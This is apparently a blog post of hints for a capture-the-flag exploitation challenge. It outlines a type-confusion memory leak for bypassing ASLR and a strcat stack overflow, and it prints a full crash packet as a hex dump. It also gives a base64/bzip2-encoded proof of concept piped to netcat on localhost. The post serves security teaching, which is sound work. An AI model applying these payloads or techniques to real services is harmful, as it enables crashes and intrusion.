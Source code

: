 ```yaml
---
title: 'Part 3: Hints'
author: ron
categories:
- hints
layout: post
date: '2023-01-10T11:02:16-08:00'
permalink: "/part3-hints"
featured: true
---
```


These are hints for the third challenge. Use at your own discretion!

<!--more-->

## Vulnerability types

You actually need to find two vulnerabilities:

1. Memory leak (to bypass ASLR)
2. Stack overflow (to execute code)

## Memory leak

There is a memory leak due to type confusion.

If you send a string where the service expects an integer, what happens? Is
there somewhere that displays the integer value back (like, say, in an error
message)?

That would be a great place to store strings (like an argument to `popen`)!

## Stack overflow

Do you see any dangerous functions being used in `apply`? Like, say, `strcat`
or similar?

### DoS Message

Here's a packet that will crash `apply`:

```
0000009B  00 00 00 02 6a f5 00 d9  00 00 04 25 00 00 00 06   ....j... ...%....
000000AB  00 00 00 01 00 00 12 34  00 00 00 02 00 00 43 21   .......4 ......C!
000000BB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000CB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000DB  00 00 00 00 00 00 00 66  41 41 41 41 41 41 41 41   .......f AAAAAAAA
000000EB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000000FB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000010B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000011B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000012B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000013B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000014B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000015B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000016B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000017B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000018B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000019B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000001AB  00 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   .BBBBBBB BBBBBBBB
000001BB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001CB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001DB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001EB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001FB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000020B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000021B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000022B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000023B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000024B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000025B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000026B  42 42 42 42 42 42 42 42  42 00 43 43 43 43 43 43   BBBBBBBB B.CCCCCC
0000027B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000028B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000029B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002AB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002BB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002CB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002DB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002EB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002FB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000030B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000031B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000032B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000033B  43 43 00 44 44 44 44 44  44 44 44 44 44 44 44 44   CC.DDDDD DDDDDDDD
0000034B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000035B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000036B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000037B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000038B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000039B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003AB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003BB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003CB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003DB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003EB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003FB  44 44 44 44 44 44 44 44  44 44 44 00 45 45 45 45   DDDDDDDD DDD.EEEE
0000040B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000041B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000042B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000043B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000044B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000045B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000046B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000047B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000048B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000049B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004AB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004BB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004CB  45 45 45 45 00                                     EEEE.
```

### Full DoS PoC

Here's how you can crash it with Netcat.. this is long, so I'm using bzip2
and base64 to encode it:

```
$ echo -ne 'QlpoOTFBWSZTWUzPK1AAAAt9p/0AECEiAn/iPgAnFEAoAAksAAAgAAICACAAdBkkDUekP1RpptGpiB6ho9BkoBM0TCYAJgBo0oYHSi4PiqvwbAR0H6vlkEBaRFBAShAKkJQ+MKoAROmZPK/C8f4DqYDEwKCM7I5va7YGupr7NG1ffgs8lABYU9FInCx6I/QfNLfsqZOVVVZS1F3JFOFCQTM8rUA=' | base64 -d | bunzip2 | nc -v localhost 1337
```

This is obviously somewhat spoilery, so use at your own descretion!

## Encryption

The response to `OPCODE_APPLY` basically encrypts your application send sends
it back. You need to figure out the encryption type and key! You should be
able to find calls to `EVP_EncryptInit_ex`, then work backwards from there.

## Doing something useful

The stack is overflowed with *encrypted* data. That means you need to *decrypt*
your payload first!
